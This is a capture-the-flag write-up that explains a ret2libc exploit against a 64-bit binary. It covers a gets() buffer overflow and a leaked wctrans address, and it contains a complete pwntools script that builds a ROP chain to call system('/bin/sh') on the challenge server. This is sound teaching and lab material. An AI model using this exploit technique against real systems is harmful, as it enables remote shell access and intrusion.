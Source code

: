 ![Screenshot 2025-02-17 000725](https://github.com/user-attachments/assets/66689f34-1117-411f-b525-4d468473d68b)\
Solved by : Relster
# Technique : *Ret2libc*


## 1. Patch binary & Binary protection checking.
We're given 3 binaries from the challenge they are *chall*, *ld-2.27.so*, and *libc-2.27.so*. Now let's do a patching on the *chall* binary.
```bash
~/Desktop/ctf/pwninit    # You can change this according to where you put your pwninit
```

Checking binary protection.
```bash
$ pwn checksec chall_patched 
[*] '/home/relster/Desktop/ctf/ehax/pwn/test/chall_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    Stripped:   No
```


## 2. Analyze the binary statically & dynamically
Ghidra:\
![image](https://github.com/user-attachments/assets/5a8eb7b1-7f7c-417b-a5a1-ecceabab6762)\
Not much is happening here, the only main thing we need to pay attention is the *printf("%p",wctrans);* which is leaking a libc function to stdout and *gets((char \*)local_a8);* which lets us input more than the buffer could hold (overflow). From here we could tell that our exploit would implement ret2libc (return-to-libc) technique to achieve our goal which is popping a shell on remote machine.

PIE disabled is very helpful here because we can just grab our rop gadgets from the binary itself, below is the list of gadgets we'd use:\
```pop rdi; ret;``` <--- Popping the address of the string '/bin/sh\x00' to the RDI register.\
```ret;         ``` <--- Used for stack alignment purposes (since this is a 64bit binary).\
these 2 above would be enough to help us setup the exploit.

Noticed that PIE is disabled but here ASLR is enabled by default from our OS. Since ASLR randomizing base address of functions, then we'd have to use the leaked address at runtime to calculate the base address of *libc* in this case. If we got the base address of *libc* then address of function like *system()* would be easily obtain at runtime and we'd have to just do basic arithmetic of addresses here. The leaked address that we mention is *wctrans* as we see above in the *printf("%p",wctrans)*. Now we'd need the offset of *wctrans* to the *libc*'s base address, to obtain these offsets we can use *pwntools* we can also use *pwntools* to find the rop gadget that we need so we don't have to manually use *ropper*/*ROPgadget* to extract gadgets 1 by 1. One more thing to remember is the string '/bin/sh\x00' which we will need to pass it to *system()* where we can pop a shell. For obtaining the address of string '/bin/sh\x00' we can use method and function called *search()* and *next()*, more detail will be shown on the exploit. We will see the details below in the script.


## 3. Writing the exploit
We got 2 things to do here:
1. Find size from buffer to saved RBP.
2. Extract the leaked address from the binary and store it into a variable.

Let's find the offset first, this time we'll use gdb because it's straight forward (IMO).\
![image](https://github.com/user-attachments/assets/a55190e3-2701-4809-b848-d1dd2091ee9e)\
Since there's no canary so we don't have to worry about it. Let's put our focus to the buffer size and saved RBP, we can see that 0xa0 in decimal is 160, don't forget the 8 bytes of RBP too. So our total junk payload would be 168 bytes, this means our RIP will start at 169th byte up to 176th byte.

For extracting the *wctrans* leaked address we'd use python's slicing technique, more detail can be seen on the exploit.

Below is the final exploit for this challenge:
```python
#!/usr/bin/env python

from pwn import *

context.arch = 'amd64'
#context.log_level = 'DEBUG'

TARGET = './chall_patched'
HOST = 'chall.ehax.tech'    # nc chall.ehax.tech 4269
PORT = 4269

elf = ELF(TARGET)
libc = ELF('./libc.so.6')
ld = ELF("./ld-2.27.so")

if not args.REMOTE:
  p = process(TARGET)
else:
  p = remote(HOST, PORT)

gdb_script = f"""
    break *main
"""
#gdb.attach(p, gdbscript=gdb_script)

# ======================================= #
'''
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x3fe000)
'''

offset = b'A' * 168 # RIP at 169th

### 1st Step == Preparing everything (gadgets, offset, etc) ###

# gadgets & symbols offset
rop = ROP(elf)
ret = rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi'])[0]
wctrans_offset = libc.symbols['wctrans']
system_offset = libc.symbols['system']
binsh_offset = next(libc.search(b"/bin/sh\x00"))

print(f"ret : {hex(ret)}")
print(f"rdi : {hex(pop_rdi)}")
print(f"wctrans : {hex(wctrans_offset)}")
print(f"system : {hex(system_offset)}")
print(f"binsh : {hex(binsh_offset)}")

### 2nd Step == Calculating base address of libc and calculating other functions' address ###

# leaked wctrans, libc base, system()
p.recvline()
out = p.recvuntil(b'0x7')
leaked_wctrans = int((b'0x7' + p.recv()[:11]).decode(), 16)
libc_base = leaked_wctrans - wctrans_offset
system = libc_base + system_offset
binsh = libc_base + binsh_offset

print(f"leaked_wctrans : {hex(leaked_wctrans)}")
print(f"libc_base : {hex(libc_base)}")
print(f"system : {hex(system)}")
print(f"binsh : {hex(binsh)}")

### 3rd Step == Build payload and send it off to remote target ###

payload = flat(
    offset,
    ret,
    pop_rdi,
    binsh,
    system
)
p.sendline(payload)

p.interactive()
p.close()

# NOTE:
# ret2libc
```


## 4. Run the exploit
Local:\
![Screenshot 2025-02-17 024958](https://github.com/user-attachments/assets/39d3e76a-6b0f-48f4-8314-0aa1331bcea1)

Remote:\
![Screenshot 2025-02-17 025227](https://github.com/user-attachments/assets/ecbb101b-a013-42ae-b68f-8001b9f38eaa)


## Keyword
ret2libc\
ASLR and PIE\
x86_64 calling convention\
Binary dependency (specific libc for specific offset)
